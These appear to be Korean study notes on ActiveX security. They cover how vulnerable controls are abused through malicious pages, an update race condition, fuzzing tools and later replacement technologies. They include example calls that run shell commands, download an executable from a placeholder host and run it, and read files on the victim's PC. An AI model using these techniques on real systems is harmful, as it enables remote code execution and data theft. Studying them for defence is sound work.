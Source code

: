ActiveX
===

Active X = ole + com

internet explorer : 엑티브 엑스를 타 언어에서 실행시킬 수 있음

인자 전달 방식
	1. obj1.callmethod('hellsonic', 'ccc', 1);

	2.
		<object id = 'obj1' classid = '~'>
			<param ~>
			<param ~>
		</object>

		obj1.callmethod();

설계상 자바스크립트는 exe 를 이길 수 없음 <br>
=> js 만으로 커널단의 키보드 보안, 화면 보안을 할 수 없음

한구의 KI 기술을 무시할 수 없음, 굉장히 고려해야할 점이 많음
완전히 다른 방식으로 바꾼다는 것을 고려하지 못하는 이유이기도 함
암호화 모듈과 같은 것도 JS 로 포팅할 수 없음 -> activex 로 사용 (현재는 많이 대체됨 )

취약점이 존재하는 ActiveX 가 설치 된 PC <br>
-> 악성 URL 로 유도 개인 타겟을 이용한 공격

취약점이 존재하는 ActiveX 가 설치 된 PC <br>
-> 사용자들이 많이 방문하는 홈페이지의 iframe 을 통해 감염
PC <br>
-> A에서만 호출 되야 할 ActiveX 가 어디서든 호출 가능 : 가장 큰 문제 <br>
-> 악성 페이지에서 호출이 됬는지 정상 페이지에서 호출이 됬는지 분간이 어려움

2년전만 해도 active x 가 shell 을 실행할 수 있었음 :

    ViewerX.Execute('netstat -an');
    ViewerX.DOwnloadFromURL('https://blabla.com/a.exe', 'C:/a.exe');

편의를 위한 함수이지만, 취약점이 크게 발생

    ViewX.ReadFile('C:/read.txt');
파일을 읽을 수 있음 ( + write delete)
registry read write delete

서비스를 이용하는 다수의 보안 프로그램 설치를 요구 <br>
-> 설치하지 않으면 서비스를 이용하지 못하므로 모두 설치 해야됨
무조건 '예' 를 눌러 설치하는 것은 힘듬

race condition 발견도 가능

    ViewerX.CheckUpdate("http://www.com/a.exe');
    ViewerX.Run('a.exe');
checkupdate : tmp 파일에 떨군후 인증서와 같은 검사를 함 <br>
-> 삭제 run : 실행 <br>
 : 삭제와 실행이 동시 실행 , race condition

update url 이 언제 바뀔지 모르기 때문에,
\`ViewerX.CheckUpdate('http://update.kr/viewer.ini');\` 를 통해 정보를 받아와 업데이트 <br>
-> 자체 검사 루틴이 존재하지 않으면 위조시 확인할 수 없음

Fuzzing::ComRaider - DLL 불러와서 Fuzzing - BOF 외의 다른 취약점을 찾을 수 없음
AxMan - Java sciprt 로 구현, class id 에 object id 를 넣으면, 막 돌면서 bof 를 찾음 <br>
 : crash 를 내기만 할 뿐 로깅 기능을 하지 않음
dranzer - bof 밖에 못찾기는 하지만, exception 과 로깅 기능이 모두 존재 : user interaction 이 불필요
	g 옵션을 통해 파일 떨궈 인풋으로 주면 알아서 돔

COM 기반이기 떄문에 Method 주소가 직관적으로 보이지 않음
attach internet explorer 해서 dispcallfunction 에서 ecx 에 걸린놈이 함수 주소

천송이 코트 사건으로 이해 active x 의무 설치 규정을 폐지

active x 이후에는 exe 파일을 배포 -> 사용자는 수동으로 설치
해결된 문제 : 오픈앱을 사용 - 브라우져 상관 없이 가능
하지만, OS 를 넘지는 못함

exe 와 explorer 의 통신 : 자체 웹 서버, custom uri scheme, web socket 기술로 통신


custom uri scheme : registry : root : uri shceme name : shell : open : command
kakaotalk://url ~&param=
이라면 root 아래 kakatalk 폴더에서 command 를 타고 가 실행하게 됨
but 사용자 마음대로 직접 호출이 가능하고, 버그가 발생할 수 있음
결과값을 받아오기 매우 힘듬

web socket : corss-origin resource sharing 을 활용한 IE 와 localhost 의 웹서버와 통신
크로스 도메인이라는 문제 발생
+ 해킹할 때 web socket 으로 보안 중지를 요청하면 무용지물
JSONP 를 이용한 통신도 가능
http5 웹소켓을 통한 통신도 가능

exe 파일 안했으면 좋겠다
js 랑 full html5 로 만들었으면 좋겠다
-> 두 기술을 이용해 공인인증서 관리 가상 키보드 구현
-> 익스플로러가 html 과 js 만 지원한다면 가능
-> 공인인증서 관리 : 로컬 스토리지 (브라우져 내부 저장소)
-> 가상 키보드 : full js 를 사용하여 구현
but 키보드나 자바 스크립트만으로는 키보드 보안을 할 수 없다. (js 로 user level 프로그램을 관리할 수 없음 )

스마트폰을 이용한 확인 : FIDO fast identity online 이용
PIN 인증서 지문 안면 홍채 -> 서버 -> 간편인증

온라인 상품 구매 -> QR 코드 스캔을 통한 스마트폰 인증 -> 등록된 카드로 결제
편리함 증가 -> 보안성 감소
